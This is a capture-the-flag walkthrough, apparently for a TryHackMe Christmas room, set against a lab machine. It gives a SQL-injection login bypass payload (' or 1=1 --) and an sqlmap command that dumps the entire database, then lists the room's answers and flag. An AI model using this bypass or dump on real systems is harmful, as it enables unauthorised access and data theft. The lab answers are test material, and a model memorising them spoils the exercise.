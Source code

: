     navigate to the website http://10.10.159.176:8000/  {ip might be different use your machine ip}

![image](https://user-images.githubusercontent.com/84837928/128608353-c67a2141-c76f-4ca5-a0ea-dd1a6dd80daa.png)

![image](https://user-images.githubusercontent.com/84837928/128608391-4a79f611-74eb-4bf4-8166-c1ec22df1c99.png)

    first answers is too much easy from the hints :

![image](https://user-images.githubusercontent.com/84837928/128608415-d098014a-bc70-4494-91e7-1180a4f9877b.png)

    on hints its clear that /santapanel

    => /santapanel  
--------------------------------------------------

    once you visit the panel you find login panel like this :

![image](https://user-images.githubusercontent.com/84837928/128608537-b6eebd26-4326-4aad-9416-4b43e2954319.png)

    Try using basic login bypass sql technique:

    => username: ' or 1=1 --
        password: {anything}
    
    
![image](https://user-images.githubusercontent.com/84837928/128609144-d59ae504-4c5c-41cb-88d8-75d2064d20d1.png)


    turn on burp proxy and enter any random name : 

 ![image](https://user-images.githubusercontent.com/84837928/128608666-cc4cb730-b24e-4b5f-9a0c-e5eced9e1081.png)
 
    once you search , on burp intercept , do right click and save it 

![image](https://user-images.githubusercontent.com/84837928/128608755-7e40d6cb-3ca9-40a3-a5d0-befe7dc83af0.png)

    remember the location :

![image](https://user-images.githubusercontent.com/84837928/128608794-5aaf1d20-071e-4506-a457-34a933c5f0d4.png)

    cd to the directory that you save and fire up the command 


    => sqlmap -r santa.panel --tamper=space2comment --dump-all --dbms sqlite

![image](https://user-images.githubusercontent.com/84837928/128608848-dbadb34d-2b5b-4544-8406-813779094a24.png)

    once scan finished you might find this :

![image](https://user-images.githubusercontent.com/84837928/128608891-8152ed3d-b405-40f6-a214-4fa2cb07d958.png)

![image](https://user-images.githubusercontent.com/84837928/128608913-83a5aa02-dac7-4ac9-b5a2-e8ec4ed79428.png)

    => 22

![image](https://user-images.githubusercontent.com/84837928/128608931-6d07ad6c-f68c-4d18-80e1-5fcad6e8d787.png)

![image](https://user-images.githubusercontent.com/84837928/128608937-5926a860-58a7-45d4-aa6c-ee9a74c1ee77.png)

    => Github Ownership


![image](https://user-images.githubusercontent.com/84837928/128608948-2a58e455-ba1e-4e2b-bbc7-d81c78f6678d.png)

![image](https://user-images.githubusercontent.com/84837928/128608953-abebea79-c799-4acc-8851-04e2ffacc163.png)

    => thmfox{All_I_Want_for_Christmas_Is_You}

![image](https://user-images.githubusercontent.com/84837928/128608973-a5ffb4ab-b926-4c55-900c-adc59a6ba7b6.png)

![image](https://user-images.githubusercontent.com/84837928/128608980-4a9c8531-4bb2-40b7-a801-d3f862eca3b0.png)

    => EhCNSWzzFP6sc7gB

----------------All the answers are found on one single scan------------------





